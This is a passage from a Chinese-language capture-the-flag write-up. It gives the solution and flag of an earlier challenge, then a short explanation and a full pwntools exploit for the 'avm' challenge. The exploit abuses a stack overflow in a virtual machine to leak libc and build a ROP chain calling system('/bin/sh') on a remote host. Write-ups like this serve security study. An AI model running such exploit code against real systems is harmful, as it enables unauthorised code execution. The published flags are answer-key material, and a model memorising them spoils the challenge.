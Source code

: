 得到最终解为 `020101081b04390001051a020a3d0f0f`，flag 为 `flag{312fa96f-52d6-4ab0-9c75-28bb84114a48}`

### avm

存在栈上数组溢出，有读写指令，直接读取libc，通过加减函数获得gadget，写回栈，构造rop链即可。

```python title="avm.py"
 from pwn import *  
 ​  
 context.terminal = ["tmux", "splitw", "-h"]  
 ​  
 r = remote("47.93.37.154", "30945")  
 # r = process("./pwn", env = {"LD_PRELOAD": "./libc.so.6"})  
 # gdb.attach(r, "b * $rebase(0x19ea)\nb * $rebase(0x1327)\nb * $rebase(0x189a)\nc")  
 # sleep(1)  
 ​  
 origin_offset = 0x7f320fcded90 - 0x7f320fcb5000  
 pop_rdi_ret = 0x2a3e5  
 bin_sh = 0x1d8678  
 system = 0x50d70  
 ​  
 payload = b""  
 payload += p32((10 << 28) + ((0x118 + 0xC20) << 16) + (31 << 5) + (0))  
 # data[0] = [s + 0x118 + 0xC20 + data[31]]  
 payload += p32((10 << 28) + ((0x118 + 0x108) << 16) + (31 << 5) + (1))  
 # data[1] = [s + 0x118 + 0x108 + data[31]]  
 payload += p32((1 << 28) + (0 << 16) + (1 << 5) + (0))  
 # data[0] = data[0] + data[1]  
 payload += p32((9 << 28) + ((0x118) << 16) + (31 << 5) + (0))  
 # [s + 0x118 + data[31]] = data[0]  
 ​  
 payload += p32((10 << 28) + ((0x118 + 0x108 + 0x8) << 16) + (31 << 5) + (1))  
 # data[1] = [s + 0x118 + 0x108 + 0x8 + data[31]]  
 payload += p32((1 << 28) + (0 << 16) + (1 << 5) + (0))  
 # data[0] = data[0] + data[1]  
 payload += p32((9 << 28) + ((0x118 + 0x10) << 16) + (31 << 5) + (0))  
 # [s + 0x118 + 0x10 + data[31]] = data[0]  
 ​  
 payload += p32((10 << 28) + ((0x118 + 0x108 + 0x10) << 16) + (31 << 5) + (1))  
 # data[1] = [s + 0x118 + 0x108 + 0x10 + data[31]]  
 payload += p32((1 << 28) + (0 << 16) + (1 << 5) + (0))  
 # data[0] = data[0] + data[1]  
 payload += p32((9 << 28) + ((0x118 + 0x18) << 16) + (31 << 5) + (0))  
 # [s + 0x118 + 0x18 + data[31]] = data[0]  
 ​  
 payload += p32((10 << 28) + ((0x118 + 0x108 + 0x18) << 16) + (31 << 5) + (1))  
 # data[1] = [s + 0x118 + 0x108 + 0x18 + data[31]]  
 payload += p32((1 << 28) + (0 << 16) + (1 << 5) + (0))  
 # data[0] = data[0] + data[1]  
 payload += p32((9 << 28) + ((0x118 + 0x8) << 16) + (31 << 5) + (0))  
 # [s + 0x118 + 0x8 + data[31]] = data[0]  
 ​  
 payload = payload.ljust(0x100, b"\x00")  
 payload += p64(pop_rdi_ret - origin_offset)  
 payload += p64(1)  
 payload += p64(system - pop_rdi_ret - 1)  
 payload += p64(bin_sh - system)  
 ​  
 r.sendafter("opcode: ", payload)  
 ​  
 r.interactive()
```
